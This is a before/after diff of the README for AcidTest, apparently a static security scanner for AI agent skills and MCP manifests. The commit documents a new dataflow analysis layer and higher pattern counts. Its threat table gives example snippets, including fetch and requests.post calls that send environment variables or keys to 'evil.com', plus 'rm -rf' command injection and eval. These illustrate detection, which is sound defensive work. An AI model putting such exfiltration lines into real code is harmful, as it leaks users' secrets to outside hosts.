

Before and after one commit to currentlycurrently/acidtest, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: Update README with v1.0.0 features
- Added Layer 5 (Dataflow Analysis) to architecture
- Updated pattern counts (104 total, 59 TS, 45 Python)
- Updated detection rate (~90-95% with dataflow)
- Highlighted multi-step attack detection
- Added new categories (SQL, XSS, crypto, etc.)

🤖 Generated with Claude Code
Co-Authored-By: Claude <noreply@anthropic.com>

```diff
--- a/README.md
+++ b/README.md
@@ -93,7 +93,7 @@ RECOMMENDATION: Do not install. Prompt injection attempt detected.
 | **Arbitrary Code Execution** | `eval(userInput)`, `new Function()` | `eval(user_input)`, `exec(code)` | AST analysis + pattern matching |
 | **Command Injection** | `exec('rm -rf ' + dir)` | `subprocess.run(cmd, shell=True)` | AST analysis + pattern matching |
 | **Unsafe Deserialization** | N/A | `pickle.loads(data)` | AST analysis + pattern matching |
-| **Data Exfiltration** | `fetch('evil.com', {body: process.env})` | `requests.post('evil.com', data=os.environ)` | Cross-reference layer |
+| **Data Exfiltration** | `const k = process.env.KEY; fetch('evil.com', {body: k})` | `key = os.environ['KEY']; requests.post('evil.com', data=key)` | Dataflow analysis |
 | **Hardcoded Credentials** | `apiKey = "sk_live_..."` | `API_KEY = "sk_live_..."` | Pattern matching + entropy |
 | **Prompt Injection** | Markdown instruction override | Markdown instruction override | Injection detection layer |
 | **Obfuscation** | Base64/hex encoded payloads | Base64/hex encoded payloads | Shannon entropy analysis |
@@ -106,26 +106,28 @@ RECOMMENDATION: Do not install. Prompt injection attempt detected.
 - Runtime behavior outside static analysis scope
 - Sophisticated polymorphic code or advanced VM-level evasion
 
-See [METHODOLOGY.md](./METHODOLOGY.md) for full transparency on capabilities and limitations (~85-90% detection rate).
+See [METHODOLOGY.md](./METHODOLOGY.md) for full transparency on capabilities and limitations (~90-95% detection rate with dataflow).
 
 ## How It Works
 
-AcidTest runs four analysis layers:
+AcidTest runs five analysis layers:
 1. **Permission Audit**: Analyzes declared permissions (bins, env, tools)
 2. **Prompt Injection Scan**: Detects instruction override attempts (AgentSkills)
 3. **Code Analysis**: Multi-language AST analysis + Shannon entropy detection for obfuscation
 4. **Cross-Reference**: Catches code behavior not matching declared permissions
+5. **Dataflow Analysis** ✨ NEW: Tracks taint flow from sources (env vars, user input) to dangerous sinks (exec, fetch)
 
 **Language Support:**
-- **TypeScript/JavaScript**: Full AST analysis with 48 security patterns
-- **Python**: Full AST analysis with 31 Python-specific patterns (tree-sitter based)
-- Detects eval/exec, subprocess injection, unsafe deserialization, and more
+- **TypeScript/JavaScript**: Full AST analysis with 59 security patterns
+- **Python**: Full AST analysis with 45 Python-specific patterns (tree-sitter based)
+- Detects eval/exec, subprocess injection, unsafe deserialization, SQL injection, XSS, and more
 
 **Advanced Features:**
-- Total 79 security patterns across both languages
-- Entropy analysis detects base64/hex encoding and obfuscated strings
-- Context-aware detection (shell=True, SafeLoader, etc.)
-- CI/CD integration via GitHub Actions and pre-commit hooks
+- **104 security patterns** across 14 categories (SQL injection, XSS, insecure crypto, prototype pollution, etc.)
+- **Multi-step attack detection**: Tracks data flow through assignments, properties, and function calls
+- **Entropy analysis**: Detects base64/hex encoding and obfuscated strings
+- **Context-aware detection**: shell=True, SafeLoader, dangerouslySetInnerHTML, etc.
+- **CI/CD integration**: GitHub Actions and pre-commit hooks
 
 Works with both SKILL.md (AgentSkills) and MCP manifests (mcp.json, server.json, package.json).
 
```
